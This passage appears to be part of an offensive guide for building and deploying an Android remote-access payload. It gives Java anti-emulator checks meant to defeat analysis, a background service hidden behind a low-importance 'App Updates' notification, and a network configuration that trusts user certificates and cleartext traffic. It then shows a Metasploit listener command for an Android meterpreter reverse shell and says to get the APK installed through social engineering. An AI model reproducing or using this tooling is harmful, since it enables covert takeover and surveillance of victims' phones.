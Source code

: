 2. **Anti-Emulation Checks (Java):**
```java
if (Build.PRODUCT.contains("sdk") || 
    Build.MODEL.contains("Android SDK") || 
    Build.MANUFACTURER.contains("Genymotion") || 
    (Build.BRAND.startsWith("generic") && Build.DEVICE.startsWith("generic"))) {
    System.exit(0);
}
```

3. **Background Execution Bypass:**
```java
// In MainActivity.java
@Override
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    
    if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.O) {
        NotificationChannel channel = new NotificationChannel("updates", "App Updates", NotificationManager.IMPORTANCE_MIN);
        getSystemService(NotificationManager.class).createNotificationChannel(channel);
        startForegroundService(new Intent(this, BackgroundService.class));
    } else {
        startService(new Intent(this, BackgroundService.class));
    }
}
```

4. **Network Security Bypass:**
```xml
<!-- network_security_config.xml -->
<network-security-config>
    <base-config cleartextTrafficPermitted="true">
        <trust-anchors>
            <certificates src="system" />
            <certificates src="user" />
        </trust-anchors>
    </base-config>
</network-security-config>
```

## Execution Workflow:

1. **Setup Listener:**
```bash
msfconsole -q -x "use exploit/multi/handler; set payload android/meterpreter/reverse_tcp; set LHOST YOUR_IP; set LPORT YOUR_PORT; exploit"
```

2. **Deploy Payload:**
- Use social engineering to install `final_payload.apk`
- Grant minimal permissions during installation
- The payload will establish connection after 5-10 minutes of device idle time

